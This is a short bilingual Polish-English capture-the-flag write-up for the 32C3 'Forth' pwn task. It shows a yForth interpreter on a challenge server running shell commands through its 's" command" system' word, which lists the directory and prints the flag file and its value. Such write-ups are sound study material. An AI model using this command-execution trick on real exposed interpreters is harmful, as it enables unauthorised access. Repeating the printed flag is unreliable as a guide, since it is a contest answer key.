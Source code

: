 ##Forth (Pwn, 150p)

> Connect to 136.243.194.49:1024 and get a shell.

###PL
[ENG](#eng-version)

Łącząc się z podanym serwerem dostajemy taką odpowiedź:

> yForth? v0.2  Copyright (C) 2012  Luca Padovani

> This program comes with ABSOLUTELY NO WARRANTY.

> This is free software, and you are welcome to redistribute it under certain conditions; see LICENSE for details.


Forth pozwala nam na wykonanie systemowych komand za pomocą `s" komenda" system` (spacja przed komendą jest ważna)

Spróbujmy zatem wyświetlić zawartość aktualnego katalogu:

>s" ls" system

>flag.txt  README.gpl  run.sh  yforth

>ok

Zobaczmy co się znajduje w pliku flag.txt:

>s" cat flag.txt" system

>32C3_a8cfc6174adcb39b8d6dc361e888f17b

>ok

Zadanie gotowe!

###ENG version

When connected to the server we get the following response: 

> yForth? v0.2  Copyright (C) 2012  Luca Padovani

> This program comes with ABSOLUTELY NO WARRANTY.

> This is free software, and you are welcome to redistribute it under certain conditions; see LICENSE for details.

Forth allows system calls by calling `s" command" system` (notice the space before command)

Let's view the insides of our current folder then:

>s" ls" system

>flag.txt  README.gpl  run.sh  yforth

>ok

How about reading the flag.txt file?

>s" cat flag.txt" system

>32C3_a8cfc6174adcb39b8d6dc361e888f17b

>ok

Challange complete!
